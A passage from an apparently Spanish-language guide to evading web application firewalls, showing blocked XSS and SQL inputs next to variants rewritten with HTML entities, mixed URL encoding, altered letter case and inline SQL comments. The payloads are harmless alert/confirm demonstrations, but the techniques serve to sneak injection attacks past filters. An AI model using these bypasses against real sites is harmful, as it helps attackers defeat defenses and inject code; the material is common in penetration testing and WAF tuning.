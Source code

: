 **Solicitud original bloqueada:**
```bash
<script>alert('XSS')</script>
```

**Actualizado con entidades HTML:**
```bash
&lt;script&gt;alert(&#x27;XSS&#x27;)&lt;/script&gt;
```

## 4. Técnica de Codificación Mixta

**Cómo hacerlo:**  
Combina múltiples técnicas de codificación (por ejemplo, codificación URL y entidades HTML) en un solo payload para confundir al WAF.

**Solicitud original bloqueada:**
```bash
<script>alert('XSS')</script>
```

**Actualizado con codificación mixta:**
```bash
%3Cscript%3Ealert%28%26%2339%3BXSS%26%2339%3B%29%3C%2Fscript%3E
```

## 5. Manipulación de Mayúsculas y Minúsculas

**Cómo hacerlo:**  
Combina caracteres en mayúsculas y minúsculas para crear payloads eficientes.

**Solicitud original bloqueada:**
```bash
<script>confirm()</script>
```

**Actualizado con cambio de mayúsculas/minúsculas:**
```bash
<ScrIpT>confirm()</sCRiPt>
```

## 6. Eludir Filtros con Comentarios

**Cómo hacerlo:**  
Inserta comentarios o caracteres adicionales dentro del payload para romper los patrones que el WAF busca.

**Solicitud original bloqueada:**
```bash
SELECT * FROM users WHERE id=1;
```

**Actualizado con comentarios:**
```bash
SELECT/*comment*/ * FROM users WHERE id=1;
```
